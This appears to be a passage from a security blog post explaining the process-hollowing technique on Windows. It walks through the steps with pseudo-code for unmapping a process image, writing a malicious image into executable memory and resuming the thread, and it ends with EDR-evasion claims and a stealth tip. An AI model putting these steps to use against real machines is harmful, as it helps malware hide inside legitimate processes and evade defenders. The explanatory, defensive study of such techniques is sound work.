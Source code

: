 ![PEB is a data structure](https://hadess.io/wp-content/uploads/2023/09/image-1-1024x379.png)

```
# Python pseudo-code to locate base address

peb_address = process.PEB

base_address = peb_address.ImageBaseAddress

Unmapping the Image: After determining the base address, the attacker unmaps the process's image from memory. This essentially hollows out the memory space where the process's image was loaded.

// C pseudo-code to unmap the image

ZwUnmapViewOfSection(process_handle, base_address);

// C pseudo-code to unmap the image

ZwUnmapViewOfSection(process_handle, base_address);

Mapping a New Image: The attacker then maps a new image, often malicious like a shellcode runner, into the hollowed memory space.

// C pseudo-code to map a new image

void* new_image = VirtualAllocEx(process_handle, base_address, image_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

WriteProcessMemory(process_handle, base_address, malicious_image, image_size, NULL);
```

#### **1. Section Alignment**

Proper alignment of the new image’s sections ensures that it can execute without issues. This step is crucial because misalignment can lead to execution errors.

#### **2. Resuming Execution**

If the previous steps are successful, the suspended process is resumed, and it starts executing the newly mapped image.

// C pseudo-code to resume the process

ResumeThread(thread_handle);

#### **3. Evading EDR (Endpoint Detection and Response)**

In his work, Matt Hand emphasizes the potential of this technique to evade EDR solutions. EDRs typically monitor process behaviors, but since the hollowing technique operates at the memory level, it can bypass many traditional detection mechanisms.

#### **4. Tips and Tricks**

Stealth: Choose benign processes to hollow, as they are less likely to raise suspicions.
